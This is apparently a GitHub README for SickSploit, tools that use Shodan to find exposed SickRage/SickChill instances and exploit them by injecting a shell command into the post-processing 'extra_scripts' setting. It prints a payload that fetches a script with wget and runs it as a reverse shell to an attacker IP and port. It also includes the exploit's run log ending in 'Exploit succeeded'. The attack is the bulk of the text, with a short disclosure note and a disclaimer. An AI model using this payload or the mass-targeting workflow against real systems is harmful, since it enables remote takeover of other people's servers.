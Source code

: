 # SickSploit

Collection of tools/scripts to exploit Sick* instances (SickRage, SickChill and similar forks.)
You can find a more detailed introduction to this collection of tools on [my blog](https://coolbyte.eu/2019/sickown-finding-sickrage-instances/).
## Introduction 

SickRage/Chill/Beard are tools to automate the download of TV-Series using torrent or Usenet.
The programs offer similar functionalities and are all exploitable using the same technique.
In this repositories there are several tools, 'sickown' is a script which uses Shodan API to track down possible vulnerable instances of Sick* which are publicly exposed on the Internet.
Sickspolit is a POC tool that exploits a vulnerable instance.

## SickOwn 

Sickown uses a simple search query in Shodan to find open instances of Sick* and then attempts to also remove false positives from this list by querying the targets found.
At the time of the writing, 1874 targets are found. You can use the -t flag to set the request timeout
to use (default to 10s).

Example usage of SickOwn is:

    $ python sickown.py -h
    usage: sickown.py [-h] [-t TIMEOUT] API
    
    Use Shodan.io to track down vulnerable instances of SickChill/Rage
    
    positional arguments:
      API                   The API_KEY for Shodan
    
    optional arguments:
      -h, --help            show this help message and exit
      -t TIMEOUT, --timeout TIMEOUT
                            The timeout to use for the HTTP requests to the
                            targets found


## SickSploit

Sicksploit is a tool to provide a POC exploit for an open instance of Sickrage.
The exploit is easy and relies on a vulnerable feature. This vulnerabilities has been reported on 15th December to the maintainer of SickChill (the fork on which all the tests have been performed).
The exploit consisting in injecting a shell command in the 'extra_scripts' which are executed after post-processing downloaded files.
Post-processing usually consists of renaming and moving downloaded episodes of TV-Series, and Sick* offers the possibility to execute a custom script after each post-process.

The way I use to exploit this feature is by injecting a Payload such as:

    /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444

This will clearly download a simple reverse shell which I have also included in the repo and then execute it with IP:port to connect to as parameters.

Example usage:

    $ python sicksploit.py -h
    usage: sicksploit.py [-h] URL RHOST RPORT

    Exploit open instances of Sick*

    positional arguments:
    URL         The URL of the sick* instance to exploit - host:port
    RHOST       The IP where the exploited instance should connect to.
    RPORT       The port where the exploited instance should connect to.

    optional arguments:
    -h, --help  show this help message and exit

---

    python sicksploit.py http://192.168.1.105:8081 192.168.1.200 4444
    [+] Trying to get current values for some config items not to break post-processing.
    [+] Parsing current Post Processing configuration.
    [+] Successfully Parsed current configuration:
        naming_anime_multi_ep: 1
        naming_abd_pattern: %SN - %A.D - %EN
        delete_non_associated_files: on
        naming_sports_pattern: %SN - %A-D - %EN
        process_automatically: on
        mediabrowser_data: 0|0|0|0|0|0|0|0|0|0
        process_method: copy
        sony_ps3_data: 0|0|0|0|0|0|0|0|0|0
        tivo_data: 0|0|0|0|0|0|0|0|0|0
        alt_unrar_tool: unrar
        mede8er_data: 0|0|0|0|0|0|0|0|0|0
        file_timestamp_timezone: network
        naming_anime: None
        tv_download_dir: /home/user/process
        naming_anime_pattern: Season %0S/%SN - S%0SE%0E - %EN
        kodi_data: 0|0|0|0|0|0|0|0|0|0
        autopostprocessor_frequency: 10
        use_icacls: on
        rename_episodes: on
        unrar_tool: unrar
        unpack: 0
        naming_pattern: Season %0S/%SN - S%0SE%0E - %EN
        sync_files: !sync,lftp-pget-status,bts,!qb,!qB
        naming_multi_ep: 1
        postpone_if_sync_files: on
        allowed_extensions: nfo,srr,sfv,srt
        nfo_rename: on
        unpack_dir: 
        kodi_12plus_data: 0|0|0|0|0|0|0|0|0|0
        wdtv_data: 0|0|0|0|0|0|0|0|0|0
    [+] Starting to exploit http://192.168.1.105:8081.
    [+] Injecting payload: /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444
    [+] Exploit succeeded.
    [+] Trigger a manual post-processing of /home/user/process to execute the injected payload.
    [+] Manual post processing correctly scheduled. It might take a few minutes to actually get executed.

## Tested on

The exploit works on several versions of SickRage and SickChill where no authentication is configured. The same exploit technique would work on any SickBeard version as well.
However, I performed my tests on my own instance of SickChill Version: v2018.11.30-1 and SickRage Version: v2018.09.17-1. 


## Disclaimer

No public instances have been exploited in the process, nor I advise to do so. I have made this for pure educational purposes and I decline every responsibility for an eventual misuse of (part of) this code.

